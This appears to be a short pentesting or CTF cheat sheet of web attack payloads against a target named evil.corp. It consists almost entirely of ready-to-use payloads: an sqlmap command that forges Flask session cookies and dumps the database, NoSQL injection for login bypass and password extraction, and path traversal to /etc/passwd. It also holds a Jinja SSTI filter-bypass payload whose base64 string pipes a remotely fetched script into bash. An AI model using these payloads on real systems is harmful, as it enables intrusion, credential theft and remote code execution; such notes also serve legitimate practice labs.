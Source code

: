 Reverse lookup:
```
dig @dns-server.evil.corp -x 10.10.10.1
```

## SQL inject

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval
https://book.hacktricks.xyz/pentesting/pentesting-web/flask

```
sqlmap evil.corp --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='<secret_key>')" --cookie="session=*" --dump

multiple question - answer = N N N
```

## NoSQL inject

Request:
```
POST /api/login

username=admin&password=pass
```

Inject:
```
username[$ne]=evil&password[$ne]=corp
```

Using `regex` to get password (useful script bellow):
```
username=admin&password[$regex]=A*
```

## Python Flask

SSTI bypass WAF if blacklisted: . _ ' {{ }} for if set block extends
allowed: {% %} ( ) " [ ] while with

```python
{% with x = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo YmFzaCAtYyAiY3VybCAxMC4xMC4xNC4xMTU6ODE4MS9yZXNoIHwgYmFzaCIK | base64 -d | bash")["read"]() %} x {% endwith %}
```

## Some path traversal bypass

WAF code for possible path traversal `evil.corp/?lang=es.php`:
```php
$language = str_replace('../', '', $_GET['language']);
```

Inject code:
```
http://evil.corp/?lang=....//....//....//....//....//....//....//....//etc/passwd
```
